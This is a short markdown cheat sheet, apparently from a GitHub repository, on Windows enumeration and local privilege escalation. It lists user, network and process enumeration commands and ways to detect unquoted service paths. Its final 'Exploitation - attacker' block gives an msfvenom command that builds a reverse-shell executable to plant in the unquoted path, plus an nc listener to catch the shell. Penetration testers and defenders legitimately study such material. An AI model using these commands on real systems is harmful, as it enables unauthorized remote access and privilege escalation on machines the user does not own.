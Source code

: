 # Windows Enumeration and Local Privilege Escalation 
## Enumeration
-> Enumerates all local accounts
```
net user
```

-> Get information from a specific user
```
net user <user>
```

-> Check user privileges
```
whoami /priv
```

-> View groups you belong to
```
whoami /groups
```

-> View interfaces and network information  
```
ipconfig /all
```

-> View all active TCP connections and the TCP and UDP ports the host is listening on
```
netstat -ant
```

-> List running processes
```
tasklist
```

-> View system tasks
```
schtasks
```

---

## Unquoted Service Path
-> Detection 
```
wmic service get Name,State,PathName | findstr "Program"  
sc qc <service_name>  
\\ BINARY_PATH_NAME display Unquoted Service Paths, without ""
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```

-> Exploitation - attacker
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > name <name_inside_the_path>.exe  
nc -nvlp <port>
```

